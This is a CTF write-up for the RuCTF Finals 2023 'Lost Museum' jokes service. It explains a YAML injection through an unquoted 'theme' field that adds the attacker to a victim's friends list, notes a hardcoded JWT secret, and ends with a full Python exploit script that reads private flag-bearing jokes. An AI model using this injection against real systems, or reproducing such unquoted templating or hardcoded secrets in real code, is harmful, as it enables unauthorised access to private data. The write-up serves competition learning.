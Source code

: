 # RuCTF Finals 2023 | Lost Museum

## Description

The service is the latest social network to restore the burnt museum of jokes

## You can

1) Add your own jokes (for everyone or just for friends)
2) View your jokes
3) Search for jokes (you will see public jokes, as well as private jokes of those users with whom you are friends)
4) Add friends to other users and add other users to your friends


### Note 0

All teams had the same JWT secret

```go
secret := "HUI"
```

### Note 1
Adding a joke happens through this `yaml`:
```yaml
jokes:
  status: {{ .Status }}
  theme: {{ .Theme }}
  text: "{{ .Text }}"
```

Later this yaml is translated into golang map

The `text` field is enclosed in quotation marks so that line breaks do not break the yaml structure.
But the `theme` field is not in quotation marks.
Accordingly, we can insert any value there containing newlines and break the original structure.

### Note 2

Adding an anecdote goes like this:

```go
res, err := r.col.UpdateOne(ctx, map[string]string{"username": username}, 
                                 map[string]map[string]map[string]string{"$push": joke})
if err != nil {
    return fmt.Errorf("error while adding joke: %w", err)
}
if res.MatchedCount == 0 {
    return common.ErrNotExists
}

return nil
```

The `$push` command iterates over the passed object and adds each key the corresponding value.

In our case, in `joke` we have: `{"jokes": {"status": ..., "theme": ..., "text": ...}}`

### Note 3

Flags are kept in private jokes

To access them you need to become a friend of the user

User 1 considers himself a friend of user 2 if user 2 has user 1 in the `friends` field

Accordingly, you can break the structure of the yaml by adding the desired user as a friend, and then reading his jokes

### Result

Combining it all together, we got sploit:

```python
#!/usr/bin/env python3
import random
import sys
from string import ascii_letters

import requests

HOST = sys.argv[1]
PORT = 18888
PUBLIC_FLAG_ID = sys.argv[2]


def get_random_string() -> str:
    return ''.join(random.choice(ascii_letters) for _ in range(20))


def sploit():
    url = f"http://{HOST}:{PORT}/api"

    username, theme = PUBLIC_FLAG_ID.split("+")

    token = requests.post(f"{url}/register", data={"username": get_random_string(), "password": "123"}).json()["token"]
    headers = {"Authorization": f"Bearer {token}"}

    resp = requests.post(f"{url}/jokes", data={"status": "private",
                                               "theme": f"zzzz\nfriends:\n  {username}: yes\nsome:",
                                               "text": "abacaba"}, headers=headers)

    resp = requests.get(f"{url}/jokes", data={"username": username, "theme": theme}, headers=headers)
    print(resp.text)


if __name__ == '__main__':
    sploit()
```
